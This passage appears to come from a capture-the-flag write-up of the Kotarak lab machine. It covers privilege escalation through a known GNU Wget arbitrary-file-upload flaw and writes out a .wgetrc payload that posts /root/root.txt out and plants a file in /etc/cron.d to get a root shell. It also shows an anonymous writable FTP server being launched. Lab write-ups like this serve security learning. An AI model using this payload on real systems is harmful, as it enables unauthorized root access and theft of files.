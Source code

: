 Even though "atanas" is a general user, we can take a look at the "/root" directory as "atanas".<br>
In that directory, we have 2 interesting files "flag.txt" and "app.log".

#### flag.txt:
{% highlight shell %}
atanas@kotarak-dmz:/root$ cat flag.txt
cat flag.txt
Getting closer! But what you are looking for can't be found here.

atanas@kotarak-dmz:/root$
{% endhighlight %}

#### app.log:
{% highlight shell %}
atanas@kotarak-dmz:/root$ cat app.log
cat app.log
10.0.3.133 - - [20/Jul/2017:22:48:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
10.0.3.133 - - [20/Jul/2017:22:50:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
10.0.3.133 - - [20/Jul/2017:22:52:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"

atanas@kotarak-dmz:/root$
{% endhighlight %}

Sounds "10.0.3.133" is continuously sending GET request to this host with Wget 1.16.<br>
By googling like following,<br>
we can find a vulnerability <a href="https://www.exploit-db.com/exploits/40064">GNU Wget 1.18 - Arbitrary File Upload / Remote Code Execution</a>.
{% highlight shell %}
wget 1.16 vulnerability
{% endhighlight %}

According to the vulnerability description, we have to create a .wgetrc file.
{% highlight shell %}
root@kali:~# cat .wgetrc 
post_file = /root/root.txt
output_document = /etc/cron.d/wget-root-shell

root@kali:~# 
{% endhighlight %}

After that, install pyftpdlib and launch the FTP server with the following command.
{% highlight shell %}
root@kali:~# pip install pyftpdlib

---

root@kali:~# python -m pyftpdlib -p 21 -w
/usr/local/lib/python2.7/dist-packages/pyftpdlib/authorizers.py:244: RuntimeWarning: write permissions assigned to anonymous user.
  RuntimeWarning)
[I 2020-01-14 18:13:11] >>> starting FTP server on 0.0.0.0:21, pid=111918 <<<
[I 2020-01-14 18:13:11] concurrency model: async
[I 2020-01-14 18:13:11] masquerade (NAT) address: None
[I 2020-01-14 18:13:11] passive ports: None
{% endhighlight %}
